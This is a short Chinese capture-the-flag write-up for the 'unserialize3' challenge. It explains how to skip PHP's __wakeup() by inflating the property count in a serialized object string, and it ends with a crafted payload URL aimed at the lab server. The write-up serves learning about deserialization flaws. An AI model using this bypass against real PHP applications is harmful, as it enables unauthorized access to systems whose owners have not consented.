

# unserialize3
## 题目描述
暂无  

## 思路
http://220.249.52.133:40231  
点开题目链接：  
  
关键点就这俩，__wakeup() 函数的出现，大概率和反序列化漏洞有关。最后一行大概率是要在 url 中填充 GET 的值。  
我们先补全并运行一下代码，看看会输出什么：  
```php
<?php 
class xctf{
	public $flag = '111';
	public function __wakeup(){
		exit('bad requests');
	}
}
// 没有序列化函数，我们要加上，不然 __wakeup() 函数没啥用啊
$code = serialize(new xctf); 
echo $code;
?> 
```
输出：O:4:"xctf":1:{s:4:"flag";s:3:"111";}   
我们可以看到 "xctf":1 部分，表示 xctf 类中，只有一个属性。  
因此，修改这个输出：O:4:"xctf":2:{s:4:"flag";s:3:"111";} 并构造一个 url：  
http://220.249.52.133:40231/index.php?code=O:4:”xctf“:2:{s:4:”flag“;s:3:”111“;}  
得到 flag：  
  

## 补充知识
1. __wakeup() 函数用法  
__wakeup() 是用在反序列化操作中。unserialize() 会检查存在一个 __wakeup() 方法。如果存在，则先会调用 __wakeup() 方法。  
2. __wakeup() 漏洞利用  
__wakeup() 漏洞与序列化字符串的属性个数有关。当序列化字符串所表示的对象，其序列化字符串中属性个数大于真实属性个数时就会跳过 __wakeup() 的执行，从而造成 __wakeup() 漏洞。  
